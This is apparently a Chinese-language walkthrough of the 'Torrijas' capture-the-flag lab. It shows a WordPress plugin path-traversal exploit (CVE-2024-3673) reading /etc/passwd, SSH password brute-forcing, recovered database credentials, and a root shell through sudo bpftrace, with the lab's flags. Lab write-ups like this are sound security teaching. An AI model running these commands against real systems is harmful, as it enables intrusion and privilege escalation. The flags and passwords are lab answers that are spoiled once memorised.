 # Torrijas

2025.02.24 https://thehackerslabs.com/torrijas/

[video]()

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

80 web 扫描出 http://192.168.5.40/wordpress/ 也是一个 wordpress。wpscan 直接扫描：

```
wpscan --url http://192.168.5.40/wordpress/ -e u,ap,at,tt,cb --plugins-detection mixed
```

发现用户 administrator 和插件 web-directory-free 1.7.2 ，这个插件有 CVE-2024-3673 漏洞，使用这个 exp 进行利用 https://github.com/Nxploited/CVE-2024-3673/blob/main/CVE-2024-3673.py 下载 py 脚本：

```
python3 CVE-2024-3673.py --url http://192.168.5.40/wordpress/ --file ../../../../../etc/passwd

{
"html": "
root:x:0:0:root:/root:/bin/bash
primo:x:1001:1001::/home/primo:/bin/bash
premo:x:1002:1002::/home/premo:/bin/bash",
"hash": "91d75cb01d4a5d829e86bca1858566db",
"map_markers": "",
"map_listings": "",
"hide_show_more_listings_button": 1,
"sql": "",
"params": "",
"base_url": "http://torrija.thl/wordpress"
}
```

读取到了 passwd 文件内容，发现 2 个用户 primo 和 premo 进行系统文件枚举：

```
for i in $(cat /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt); do echo $i; python3 CVE-2024-3673.py --url http://192.168.5.40/wordpress/ --file ../../../../..$1 ;done
```

尝试爆破下 primo 和 premo 的 ssh 登陆密码，爆出 premo 的 ssh 登陆密码 cassandra

登陆后，拿到 user flag:

```
premo@Torrija-TheHackersLabs:~$ cat user.txt
e7d95b3635f4d45c8bdd6bf31ad4673c  -
```

查看 mysql 操作记录，可能才这个表里 primo 有数据：

```
premo@Torrija-TheHackersLabs:~$ cat .mysql_history
_HiStOrY_V2_
show\040databases;
use\040Torrijas;
show\040tables;
select\040*\040from\040primo;
exit;
```

找到了 wordpress 的数据库配置文件：

```
premo@Torrija-TheHackersLabs:/var/www/html/wordpress$ cat wp-config.php

define( 'DB_USER', 'admin' );
define( 'DB_PASSWORD', 'afdvasgvfdsabdgvs6a9vd8sv' );
```

登陆数据库，这里不要使用 admin 登陆，要使用 root 登陆，同时 root 的密码和 admin 是一样的:

```
mysql -u root -pafdvasgvfdsabdgvs6a9vd8sv

MariaDB [Torrijas]> select * from primo;
+----+---------+----------------+
| id | usuario | contraseña     |
+----+---------+----------------+
|  1 | primo   | queazeshurmano |
+----+---------+----------------+
```

得到了 primo 用户的密码 queazeshurmano , 切换到该用户，sudo -l 发现 (root) NOPASSWD: /usr/bin/bpftrace 直接提权到 root：

```
primo@Torrija-TheHackersLabs:~$ sudo bpftrace -c /bin/sh -e 'END {exit()}'
sudo: unable to resolve host Torrija-TheHackersLabs: Fallo temporal en la resolución del nombre
Attaching 1 probe...
# cd /root
# ls
root.txt
# cat root.txt
f3e431cd1129e9879e482fcb2cc151e8  -
```

